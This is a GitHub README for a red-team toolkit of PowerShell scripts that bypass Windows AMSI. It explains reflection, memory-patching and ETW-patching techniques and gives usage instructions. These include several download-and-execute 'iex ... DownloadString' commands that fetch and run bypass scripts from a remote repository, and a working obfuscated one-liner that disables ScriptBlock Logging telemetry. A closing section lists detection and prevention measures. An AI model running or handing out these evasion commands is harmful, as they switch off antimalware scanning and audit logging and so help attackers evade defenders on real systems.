

<div align="center">

# 🛡️ RedTeam PowerShell AMSI Bypass

[](LICENSE)
[](https://docs.microsoft.com/en-us/powershell/)
[](https://www.microsoft.com/)
[](https://github.com/AnandJogawade/RedTeam-PowerShell-AMSI-Bypass/stargazers)

**A comprehensive collection of AMSI (Antimalware Scan Interface) bypass techniques for security research, penetration testing, and red team operations.**

> ⚠️ **For authorized security testing and educational purposes only.** Unauthorized use against systems you don't own or have permission to test is illegal.

</div>

---

<div align="center">





</div>

---

## 📖 Table of Contents

- [What is AMSI?](#-what-is-amsi)
- [How AMSI Works](#-how-amsi-works)
- [Bypass Techniques Explained](#-bypass-techniques-explained)
- [Repository Structure](#-repository-structure)
- [Usage](#-usage)
  - [Status Check](#1-status-check)
  - [One-Liner Bypasses](#2-one-liner-bypasses)
  - [Multi-Liner Bypasses](#3-multi-liner-bypasses)
  - [Advanced Bypasses](#4-advanced-bypasses)
  - [ScriptBlock Logging Bypass](#5-scriptblock-logging-bypass)
- [Detection & Prevention](#-detection--prevention)
- [Disclaimer](#-disclaimer)

---

## 🔍 What is AMSI?

**AMSI (Antimalware Scan Interface)** is a Windows security interface introduced by Microsoft in Windows 10. It acts as a bridge between applications/scripting engines and antivirus/EDR products, allowing content to be inspected **before execution**.

AMSI is integrated into:

- **PowerShell** — scripts, command strings, dynamically generated code, and deobfuscated content
- **Windows Script Host** (wscript / cscript)
- **JavaScript & VBScript**
- **Office VBA Macros**
- **.NET Framework** (4.8+)

The core AMSI components live in `amsi.dll`, which exports functions like `AmsiScanBuffer` and `AmsiScanString` that security providers hook into.

---

## ⚙️ How AMSI Works

```
┌──────────────────┐    ┌─────────────┐    ┌──────────────────┐
│   PowerShell     │───▶│  AMSI.DLL   │───▶│  Defender / EDR  │
│  (Script Input)  │    │ AmsiScanBuf │    │  (Scan Engine)   │
└──────────────────┘    └─────────────┘    └──────────────────┘
                              │                      │
                              ▼                      ▼
                        ┌───────────┐         ┌────────────┐
                        │  Verdict  │◀────────│  Analysis  │
                        │ Allow/Block│         │  Result    │
                        └───────────┘         └────────────┘
```

**Step-by-step flow:**

1. PowerShell receives a script or command input
2. Before execution, the content is sent to **AMSI** via `AmsiScanBuffer()`
3. AMSI forwards the content to the registered security provider (e.g., Microsoft Defender)
4. The provider analyzes the content and returns a **detection verdict**
5. PowerShell either **allows** or **blocks** execution based on the verdict

**Key internal class:**
The AMSI integration inside PowerShell is implemented through `System.Management.Automation.AmsiUtils`, a .NET class within the `System.Management.Automation` assembly. This class contains a critical static field called `amsiInitFailed` that indicates whether AMSI initialization succeeded.

---

## 🧠 Bypass Techniques Explained

### 1. Reflection-Based (`amsiInitFailed` Flag)
The most common technique. Uses .NET Reflection to access the internal `AmsiUtils` class and set `amsiInitFailed = true`. This tells PowerShell that AMSI failed to initialize, so it skips all scanning.

**How it works:**
- `.NET Reflection` allows runtime inspection of assemblies, types, fields, and methods
- Access `System.Management.Automation.AmsiUtils` via `[Ref].Assembly.GetType()`
- Retrieve the `amsiInitFailed` private static field
- Set its value to `$true` — PowerShell now believes AMSI is broken and stops scanning

**Used in:** `OL-1` through `OL-4`, `MLT-1` through `MLT-8`, `ML-1`, `ML-2`

### 2. Memory Patching (`AmsiScanBuffer` Patch)
Directly patches the `AmsiScanBuffer` function in `amsi.dll` in memory. Overwrites the first bytes of the function with instructions that force an immediate return (effectively a no-op), so every scan returns clean.

**How it works:**
- Load `amsi.dll` using `GetModuleHandle`
- Locate `AmsiScanBuffer` with `GetProcAddress`
- Change memory protection to writable with `VirtualProtect` / `NtProtectVirtualMemory`
- Overwrite the function prologue with a `RET` or error-returning stub
- Restore original memory protection

**Used in:** `Dual-AMSI-Bypass`, `Direct-Syscall`, `InDirect-Syscall`, `Indirect-Memory-Rewrite-Layer`

### 3. Dual Bypass (Flag + Patch)
Combines both techniques — sets `amsiInitFailed` **and** patches `AmsiScanBuffer` for maximum reliability. Even if one method is detected or fails, the other provides coverage.

**Used in:** `Dual-AMSI-Bypass.ps1`, `OL-5`

### 4. ETW (Event Tracing for Windows) Patching
Some advanced scripts also disable **ETW tracing** to prevent telemetry from being logged. This patches the `EtwEventWrite` function in `ntdll.dll` with a `RET` instruction.

**Used in:** `OL-5`, `Indirect-Memory-Rewrite-Layer`

### 5. Obfuscation Layers
Several scripts use layers of obfuscation to avoid signature-based detection:
- **Base64 encoding** — encodes strings to avoid keyword matching
- **XOR encryption** — encrypts payloads with XOR keys
- **String concatenation** — builds sensitive strings at runtime
- **Char code arrays** — constructs strings from ASCII values
- **Reverse strings** — reverses encoded strings before use
- **Junk/decoy functions** — adds noise to confuse static analysis

---

## 📁 Repository Structure

```
RedTeam-PowerShell-AMSI-Bypass/
├── One-Liner/                              # Single-line bypass scripts (.ps1)
│   ├── AMSI-Bypass-OL-1.ps1               # Base64-encoded reflection bypass
│   ├── AMSI-Bypass-OL-2.ps1               # LoadWithPartialName reflection bypass
│   ├── AMSI-Bypass-OL-3.ps1               # Compact reflection with error handling
│   ├── AMSI-Bypass-OL-4.ps1               # Heavy obfuscation + XOR + multi-layer
│   └── AMSI-Bypass-OL-5.ps1               # Dual bypass (patch + flag + ETW) with verification
│
├── Multi-Liner/                            # Multi-line bypass scripts
│   ├── AMSI-Bypass-MLT-1.txt              # Uninitialize + flag + context null
│   ├── AMSI-Bypass-MLT-2.txt              # Clean reflection with BindingFlags
│   ├── AMSI-Bypass-MLT-3.txt              # String format obfuscation
│   ├── AMSI-Bypass-MLT-4.txt              # Concatenation obfuscation
│   ├── AMSI-Bypass-MLT-5.txt              # Char code array + SetValue via reflection
│   ├── AMSI-Bypass-MLT-6.txt              # Flag + s_amsiSession null
│   ├── AMSI-Bypass-MLT-7.txt              # Uninitialize + flag + context null
│   ├── AMSI-Bypass-MLT-8.txt              # Whitespace stripping obfuscation
│   ├── AMSI-Bypass-ML-1.ps1               # C# Add-Type compiled bypass
│   ├── AMSI-Bypass-ML-2.ps1               # Turkish variable name obfuscation
│   ├── Dual-AMSI-Bypass.ps1               # Flag + AmsiScanBuffer patch
│   ├── Direct-Syscall-AMSI-Bypass-With-Layered-Obfuscation.ps1
│   ├── InDirect-Syscall-AMSI-Bypass-With-Layered-Obfuscation.ps1
│   └── Indirect-Memory-Rewrite-Layer-AMSI-Bypass.ps1
│
├── Utils/                                  # Utility scripts
│   ├── Status-Check.ps1                   # Check Defender, AMSI, Firewall, Logging status
│   ├── ScriptBlock-Logging-Bypass.ps1     # Full SBL bypass (ETW + GPO + signatures)
│   └── ScriptBlock-Logging-Bypass-OneLiner.txt  # One-liner ETW provider kill
│
├── assets/
│   └── demo.gif                           # Proof of concept demo
├── LICENSE
└── README.md
```

---

## 🚀 Usage

### 1. Status Check

**Always run the status check first** to see the current state of Defender, AMSI, Firewall, and Logging:

**Remote execution:**
```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/AnandJogawade/RedTeam-PowerShell-AMSI-Bypass/main/Utils/Status-Check.ps1")
```

**Local execution (copy-paste):**
```powershell
$s=Get-MpComputerStatus; $fw=Get-NetFirewallProfile; $t=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); $f=$t.GetField('amsiInitFailed','NonPublic,Static'); $a=$f.GetValue($null); $sb=(Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -ErrorAction Ignore).EnableScriptBlockLogging; $tm=(Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" -ErrorAction Ignore).EnableTranscripting; [pscustomobject]@{"Real-Time Protection"=if($s.RealTimeProtectionEnabled){"TRUE & Running"}else{"Turned Off"};"IOAV Protection"=if($s.IoavProtectionEnabled){"TRUE & Running"}else{"Turned Off"};"Behavior Monitoring"=if($s.BehaviorMonitorEnabled){"TRUE & Running"}else{"Turned Off"};"Antispyware"=if($s.AntispywareEnabled){"TRUE & Running"}else{"Turned Off"};"Anti-Malware Service"=if($s.AMServiceEnabled){"TRUE & Running"}else{"Turned Off"};"Firewall Domain"=if(($fw|? Name -eq 'Domain').Enabled){"TRUE & Running"}else{"Turned Off"};"Firewall Private"=if(($fw|? Name -eq 'Private').Enabled){"TRUE & Running"}else{"Turned Off"};"Firewall Public"=if(($fw|? Name -eq 'Public').Enabled){"TRUE & Running"}else{"Turned Off"};"AMSI Status"=if(-not $a){"AMSI is Running"}else{"AMSI NOT Running / Bypassed"};"Script Block Logging"=if($sb){"Enabled"}else{"Not Configured"};"Transcription Logging"=if($tm){"Enabled"}else{"Not Configured"};"Language Mode"=$ExecutionContext.SessionState.LanguageMode} | Format-List
```

---

### 2. One-Liner Bypasses

One-liner scripts can be run directly by pasting into a PowerShell session or via remote download.

| Script | Technique | Description |
|--------|-----------|-------------|
| `OL-1` | Base64 Reflection | Decodes and executes the `amsiInitFailed` flag set via Base64 |
| `OL-2` | LoadWithPartialName | Direct assembly load + reflection chain in a single line |
| `OL-3` | Compact Reflection | Minimal reflection with error handling and status output |
| `OL-4` | Heavy Obfuscation | Multi-layer XOR + char codes + string building + junk code |
| `OL-5` | Dual + ETW Kill | Patches `AmsiScanBuffer` + ETW + sets flag + built-in verification |

**Remote execution (example with OL-1):**
```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/AnandJogawade/RedTeam-PowerShell-AMSI-Bypass/main/One-Liner/AMSI-Bypass-OL-1.ps1")
```

**After running, verify with Status-Check to confirm AMSI is bypassed.**

---

### 3. Multi-Liner Bypasses

Multi-liner `.txt` scripts are designed to be **copy-pasted line by line** into a PowerShell session:

| Script | Technique | Description |
|--------|-----------|-------------|
| `MLT-1` | Uninitialize + Flag | Calls `AmsiUtils.Uninitialize()` then sets flag and nulls context |
| `MLT-2` | Clean Reflection | Straightforward reflection with explicit `BindingFlags` |
| `MLT-3` | Format String | Builds type/field names using `-f` format operator |
| `MLT-4` | Concatenation | Assembles strings via `+` concatenation |
| `MLT-5` | Char Code Array | Constructs strings from ASCII values, uses `SetValue` via method reflection |
| `MLT-6` | Flag + Session Null | Sets `amsiInitFailed` and nulls `s_amsiSession` for double effect |
| `MLT-7` | Uninitialize + Flag | Same as MLT-1, calls internal Uninitialize method |
| `MLT-8` | Whitespace Strip | Uses a function to strip obfuscating whitespace from strings |

Multi-liner `.ps1` scripts are full PowerShell scripts with additional logic:

| Script | Technique | Description |
|--------|-----------|-------------|
| `ML-1` | C# Add-Type | Compiles a C# class at runtime to perform the bypass |
| `ML-2` | Variable Obfuscation | Uses Turkish variable names and junk math as obfuscation |

---

### 4. Advanced Bypasses

These scripts combine **memory patching**, **syscall techniques**, and **heavy obfuscation**:

| Script | Technique | Description |
|--------|-----------|-------------|
| `Dual-AMSI-Bypass` | Flag + Patch | Sets `amsiInitFailed` AND patches `AmsiScanBuffer` via `VirtualProtect` |
| `Direct-Syscall` | Direct Syscall + Patch | Uses `NtProtectVirtualMemory` syscall to patch `AmsiScanBuffer` with layered obfuscation |
| `InDirect-Syscall` | Indirect Syscall + Patch | Finds syscall gadgets in ntdll for indirect `NtProtectVirtualMemory` calls |
| `Indirect-Memory-Rewrite-Layer` | Memory Rewrite + ETW | Patches both `AmsiScanBuffer` and `EtwEventWrite` using double XOR + NT API |

**Remote execution (example with Dual-AMSI-Bypass):**
```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/AnandJogawade/RedTeam-PowerShell-AMSI-Bypass/main/Multi-Liner/Dual-AMSI-Bypass.ps1")
```

All advanced scripts include **built-in AMSI status verification** that tests with a known malicious keyword and reports whether the bypass succeeded.

---

### 5. ScriptBlock Logging Bypass

Located in `Utils/`, these scripts disable **PowerShell ScriptBlock Logging** to prevent your commands from being logged:

**Full bypass (`ScriptBlock-Logging-Bypass.ps1`):**
- Stage 1: Kills the ETW provider (`m_enabled = 0`)
- Stage 2: Tampers cached Group Policy settings for ScriptBlock Logging
- Stage 3: Empties the suspicious-signatures set
- Includes full verification with PASS/FAIL output

**One-liner ETW kill (`ScriptBlock-Logging-Bypass-OneLiner.txt`):**
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

---

## 🔒 Detection & Prevention

### How Defenders Can Detect These Bypasses

| Detection Method | What It Catches |
|-----------------|-----------------|
| **ETW Telemetry** | Monitors `AmsiScanBuffer` calls — a sudden stop indicates patching |
| **Kernel Callbacks** | Detects memory protection changes on `amsi.dll` pages |
| **Script Block Logging** | Records the bypass script itself before AMSI is disabled (if SBL runs first) |
| **Module Load Events** | Flags when scripts load `System.Management.Automation` via reflection |
| **Behavioral Analysis** | EDRs detect patterns of `VirtualProtect` + `Marshal.Copy` on amsi.dll |
| **Memory Integrity Checks** | Periodic scanning of `amsi.dll` in-memory vs on-disk hash |
| **AMSI Provider Health** | Monitor for AMSI provider registration/deregistration events |

### Prevention Best Practices

1. **Constrained Language Mode** — Restricts PowerShell to basic cmdlets, blocks .NET reflection
2. **Application Whitelisting** — WDAC/AppLocker policies to control what scripts can run
3. **Enhanced Logging** — Enable Module Logging, Script Block Logging, and Transcription Logging together
4. **EDR with Kernel-Level Monitoring** — Solutions that monitor from kernel space can't be bypassed from userland
5. **Credential Guard** — Protects credentials even if AMSI is bypassed
6. **Regular Patching** — Microsoft continuously hardens AMSI internals
7. **Network Segmentation** — Limit lateral movement even if a session is compromised
8. **Just Enough Administration (JEA)** — Restrict what PowerShell commands users can run

---

## ⚠️ Disclaimer

This repository is intended **strictly for authorized security testing, research, and educational purposes**. The techniques documented here are provided to help security professionals understand offensive methodologies and improve defensive posture.

**By using this repository, you agree that:**

- You will only use these scripts on systems you own or have explicit written authorization to test
- You understand that unauthorized use may violate local, state, and federal laws
- The author assumes no liability for misuse of the contents of this repository
- You will use this knowledge to improve security, not to cause harm

---

<div align="center">

**Made by [AnandJogawade](https://github.com/AnandJogawade)** | ⭐ Star this repo if you find it useful!

</div>
